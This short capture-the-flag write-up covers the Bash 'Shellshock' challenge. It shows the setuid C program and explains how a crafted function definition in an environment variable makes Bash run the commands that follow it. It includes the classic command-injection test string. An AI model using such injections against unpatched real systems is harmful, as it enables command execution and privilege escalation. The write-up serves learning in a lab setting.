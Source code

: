 # Shellshock
Shellshock.c :
```
shellshock@ubuntu:~$ cat shellshock.c 
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```
As we see the classic shellshock vulnerability. 
### Explanation:
This original form of the vulnerability involves a specially crafted environment variable containing an exported 
function definition, followed by arbitrary commands. Bash incorrectly executes the trailing commands when it imports
the function.  (Source Wiki)
```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
Therefore, `() { :;}` this is used as a function definition and everything after a `;`will be executed.
![alt text](https://i.imgur.com/KWcrYwG.png)
<br>and we get the flag.
